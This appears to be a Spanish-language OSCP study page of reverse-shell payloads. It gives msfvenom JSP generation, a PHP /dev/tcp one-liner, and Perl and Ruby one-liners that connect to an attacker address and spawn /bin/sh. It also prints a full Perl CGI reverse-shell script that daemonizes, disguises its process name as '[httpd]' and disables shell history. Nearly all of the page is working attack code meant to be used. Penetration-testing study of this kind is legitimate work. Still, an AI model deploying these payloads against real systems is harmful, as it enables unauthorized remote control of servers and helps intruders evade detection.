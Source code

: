 # Seccion de explotacion

## Shell reversa

Previamente `export PAYLOAD=<nombre-payload>; export LHOST=<IP-local>; export LPORT=<puerto local>`

### Multi Handler
1) Generar un Multi Handler automatico --> `$OSCP/explotacion/multi-handler/generator.sh $PAYLOAD $LHOST $LPORT`

### Shell reversas

2) JSP  --> `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw > shell.jsp`

3) PHP  --> `$OSCP/explotacion/reverse-shells/php-reverse/generator.sh $LHOST $LPORT`

2) PHP simplificada --> 
<pre>
<?php echo shell_exec("exec 97<>/dev/tcp/IP_LOCAL/PUERTO;sh <&97 >&97 2>&97; id");?>
</pre>

5) PERL --> `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

6) RUBY --> `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

7) CGI --> https://github.com/ferreirasc/oscp/blob/master/payloads/reverse_shell.cgi 
<pre>
#!/usr/bin/perl -w
use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

<b># Where to send the reverse shell.  Change these.
my $ip = '10.11.0.44';
my $port = 1234;</b>

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any 
		# source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
	cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

	if ($auth) {
		unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
			cgiprint("ERROR: Your client isn't authorised to view this page");
			cgiexit();
		}
	}
} elsif ($auth) {
	cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
	cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
	my $pid = fork();
	if ($pid) {
		cgiexit(0); # parent exits
	}

	setsid();
	chdir('/');
	umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
	cgiprint("Sent reverse shell to $ip:$port");
	cgiprintpage();
} else {
	cgiprint("Couldn't open reverse shell to $ip:$port: $!");
	cgiexit();	
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"/bin/sh"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
	my $line = shift;
	$line .= "<p>\n";
	$global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
	cgiprintpage();
	exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
	print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
</pre>






